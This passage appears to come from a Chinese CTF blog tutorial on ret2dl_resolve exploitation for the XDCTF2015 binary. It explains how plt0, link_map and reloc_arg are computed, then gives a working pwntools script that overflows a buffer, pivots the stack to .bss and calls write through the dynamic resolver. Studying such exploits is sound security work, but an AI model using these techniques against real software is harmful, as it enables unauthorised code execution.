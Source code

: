 利用reloc_arg来调用 write 函数，就是跳到plt0地址，获取link_map的地址，然后输入reloc_arg其实便可以调用write函数了。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d12.png)

具体来说，利用 plt[0] （link_map）的相关指令，即公共 plt 表项的第一个地址 link_map 以及跳转到 dl_resolve 函数中解析的指令。如图所示。plt[0]就是0x8048380，即公共偏移表的位置，0x804a004中存放了link_map的地址。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d13.png?x-oss-process=style/watermark)

plt0的地址我们可以通过**elf.get_section_by_name(’.plt’).header.sh_addr **找到，但relloc_arg需要我们计算出来。.plt 保存了 relloc_arg 和 got 的地址，而 .plt.rel+relloc_arg 的第一个值 r_offset = 0x0804a014 指向 got 表。对照下图1 strlen的jmp 0x804a014地址（relloc_arg = 0x10）和图2的第2行(0x8048330+0x10=0x8048340)的第一个值0x804a014。也就是说.plt与.plt.rel一一对应。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d14.png?x-oss-process=style/watermark)

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d15.png?x-oss-process=style/watermark)

而.plt从结构体下标从1开始，.rel.plt的结构体下标是从0开始的。wrie.plt地址0x80483d0，对应.rel.plt的地址是0x8048350，(write.plt-plt0)/16=(0x80483d0-0x8048380)/16=5，得到write在.plt的下标再减1可得到在.rel.plt的下标.rel.plt[4]，而relloc_arg则在如上基础乘8，4*8=0x20。即relloc_arg=((elf.plt[‘write’] - plt0) / 16 - 1) *8

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d16.png?x-oss-process=style/watermark)

exp1:

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')
offset = 112
bss_addr = elf.bss()
r.recvuntil('Welcome to XDCTF2015~!\n')
stack_size = 0x800 #普遍是这个地址
base_stage = bss_addr + stack_size 
rop.raw('a' * offset)#在ROP链中填充offset个a
rop.read(0, base_stage, 100)#相当于call read，读取100个字节到base_stage，即第2段rop
rop.migrate(base_stage)#会将程序流程又转到base_stage
r.sendline(rop.chain()) #第一段栈迁移
rop = ROP('./main')
sh = "/bin/sh"
plt0 = elf.get_section_by_name('.plt').header.sh_addr#会把找到plt[0]的地址十进制形式给plt0
write_index = (elf.plt['write'] - plt0) / 16 - 1
write_index *= 8#得到push的那一个write@plt的0x20也就是32
rop.raw(plt0)#将第2段rop换成这个。会转到plt0执行 
rop.raw(write_index)#write的relloc_arg，控制程序执行write函数
rop.raw('bbbb')#plt0执行完毕，调用write，此时这里就会成为write的虚假返回地址
rop.raw(1) #write的参数
rop.raw(base_stage + 80)#将bin/sh写入到base_stage + 80
rop.raw(len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))#填充到100字符
r.sendline(rop.chain())#第二段rop
r.interactive()
```

